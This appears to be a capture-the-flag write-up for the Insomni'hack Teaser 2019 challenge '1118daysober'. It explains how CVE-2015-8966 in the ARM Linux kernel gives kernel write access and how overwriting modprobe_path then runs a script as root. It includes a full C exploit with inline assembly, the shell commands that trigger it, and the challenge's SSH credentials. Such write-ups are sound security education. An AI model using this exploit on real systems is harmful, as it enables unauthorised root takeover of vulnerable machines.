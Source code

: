 ```yaml
---
title: Insomni'hack Teaser 2019 1118daysober
updated: 2019-02-09 13:00:00
tags: [writeup,reversing,pwn]
---
```


- [1118daysober : Insomni'hack Teaser 2019](#orge54149f)
  - [usermode-helper API](#orgb555ee6)


<a id="orge54149f"></a>

# 1118daysober : Insomni'hack Teaser 2019

    The kernel of this vm is vulnerable to CVE-2015-8966, exploit it to gain root privileges and read /flag/flag.txt !
    Terminal ssh 1118daysober@1118daysober.teaser.insomnihack.ch
    Password: 1118daysober

We were given a arm qemu image and the information that it is vulnerable to `CVE-2015-8966`

```sh
$ ls
config  flag_part.img  README.txt  rootfs.img  run.sh  vmlinux  zImage
$ ./run.sh
/ $ uname -a
Linux (none) 4.9.118-00001-gab86c83a4f15 #1 SMP Sun Jan 13 14:34:37 CET 2019 armv7l GNU/Linux
```

Lucky I was able to find [POC](https://thomasking2014.com/2016/12/05/CVE-2015-8966.html) online for this CVE by the person who found this bug. So the bug was in the `fcntl64` legacy syscall. This function will call `set_fs(KERNEL_DS)` and it will not be set back to `USER_DS` when some particular flag was specified.

So the `addr_limit` variable in the `task_struct` specify the boundary of userspace and kernelspace address and when some pointers are passed to the kernel via syscall it is verified that these pointers are in the range of userspace using `access_ok()` macros. So basically `read(0, (void*)0xc0008000, 8)` wouldn't work since we have specified a kernel address. So there are times when we need to bypass this check to specify a kernel address. The `set_fs()` is used to change this, so `set_fs(KERNEL_DS)` set it to large value so that `access_ok` always return true. So after triggering the bug we can give kernel address.

I was able to give kernel addresses, but noticed that while giving user space pointer it was crashing , I could not figure out the exact cause of this. Anyway now we can only use kernel address. The main part of this post is to discuss about a cool trick, which can be used since we have a arbitrary read/write primitive in kernel space to exploit this bug.


<a id="orgb555ee6"></a>

## usermode-helper API

Using this API we can execute binaries from kernel space, and the best part is it will be executed as `root`. One of the use case of this to load required module dynamically when new device is plugged in or if we have specified a program to process the code dump in core<sub>pattern</sub>. This is a great article which talks about this API **[Invoking user-space applications from the kernel](https://www.ibm.com/developerworks/library/l-user-space-apps/)**

If we can trigger a event which will execute this code path and if we can control the program executed we can run program as `root`.

So when you execute a program Linux searches through it internal data structure figure out the binary format of the program and the specific loader to load the program into memory and start executing it . And if that process fails if checks if there is any kernel module that will help it to load the binary of this specific format. For that it requires to execute `modprobe` command and the kernel used this API to execute and load module.

```c
do_execve()
  do_execveat_common()
     __do_execve_file()
	  exec_binprm()
	    search_binary_handler()
	      request_module()
              __request_module()
	          call_modprobe()
	            call_usermodehelper_setup()
	            call_usermodehelper_exec()
```

```c
/*
	modprobe_path is set via /proc/sys.
*/
char modprobe_path[KMOD_PATH_LEN] = "/sbin/modprobe";
static int call_modprobe(char *module_name, int wait)
{
	struct subprocess_info *info;
	static char *envp[] = {
		"HOME=/",
		"TERM=linux",
		"PATH=/sbin:/usr/sbin:/bin:/usr/bin",
		NULL
	};

	char **argv = kmalloc(sizeof(char *[5]), GFP_KERNEL);
	if (!argv)
		goto out;

	module_name = kstrdup(module_name, GFP_KERNEL);
	if (!module_name)
		goto free_argv;

	argv[0] = modprobe_path;
	argv[1] = "-q";
	argv[2] = "--";
	argv[3] = module_name;	/* check free_modprobe_argv() */
	argv[4] = NULL;

	info = call_usermodehelper_setup(modprobe_path, argv, envp, GFP_KERNEL,
					 NULL, free_modprobe_argv, NULL);
	if (!info)
		goto free_module_name;

	return call_usermodehelper_exec(info, wait | UMH_KILLABLE);
}

```

So if we can overwrite the `modeprobe_path` and if you try to execute a binary of invalid format it will execute the specified binary.

There are also other place in the code base were we can use the same trick to get code execution . like `poweroff_cmd` Since we have a write primitive in kernel space we can use it to overwrite the `modeprobe_path` using read syscall. Then trigger the code path to execute specified file.

```c
  long modeprobe_path = 0xc1334dc8;
  read(0,(void*)modeprobe_path,14);
```

Then trigger it with

```sh
echo -ne '#!/bin/sh\n/bin/cp /flag/flag.txt /home/user/flag\n/bin/chmod 777 /home/user/flag\n' > /home/user/pwn
chmod +x /home/user/pwn
echo -ne '\xff\xff\xff\xff' > /home/user/ll
chmod +x /home/user/ll
```

Since `ll` contains a invalid magic bit, `request_module` function will be triggers and our `pwn` script will be executed as root which copies the flag can set the permission so that anyone can read it.

Exploit code, most of the code is from the POC.

```c
#define _GNU_SOURCE
#include "libc.h"

#define SEEK_SET  0       /* Seek from beginning of file.  */

struct flock
{
  short int l_type;	/* Type of lock: F_RDLCK, F_WRLCK, or F_UNLCK.	*/
  short int l_whence;	/* Where `l_start' is relative to (like `lseek').  */
  unsigned long l_start;	/* Offset where the lock begins.  */
  unsigned long l_len;	/* Size of the locked area; zero means until EOF.  */
  int l_pid;	/* Process holding the lock.  */
};
int try_to_read_kernel(){
  int len;
  int try_bytes = 4;

  /* char * path="/home/user/lll"; */
  long modeprobe_path = 0xc1334dc8;
  read(0,(void*)modeprobe_path,14);
  
  
  return len == try_bytes;
}

__attribute__((naked)) long sys_oabi_fcntl64(unsigned int fd, unsigned int cmd, unsigned long arg){
        
  __asm __volatile (
                    "swi	0x9000DD\n"
                    "mov	pc, lr\n"
                    :   
                    :
                    :
                    );
}

#define F_OFD_GETLK	36
#define F_OFD_SETLK	37
#define F_OFD_SETLKW 38


int _start(){
  int fd = open("/proc/cpuinfo", O_RDONLY);
  struct flock *map_base = 0;

  map_base = (struct flock *)mmap(0x0, 0x1000, PROT_READ | PROT_WRITE, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);

  map_base->l_start = SEEK_SET;
  sys_oabi_fcntl64(fd, F_OFD_GETLK, (long)map_base);
  try_to_read_kernel();
  return 0;
}
```

Reference : 

[1] : [New Reliable Android Kernel Root Exploitation Techniques](http://powerofcommunity.net/poc2016/x82.pdf)

[2] : [POC CVE-2015-8966](https://thomasking2014.com/2016/12/05/CVE-2015-8966.html)

[3] : [@bata<sub>24</sub> kernel note](https://hackmd.io/s/r1BAS2P0z#)

[4] : [Invoking user-space applications from the kernel](https://www.ibm.com/developerworks/library/l-user-space-apps/)
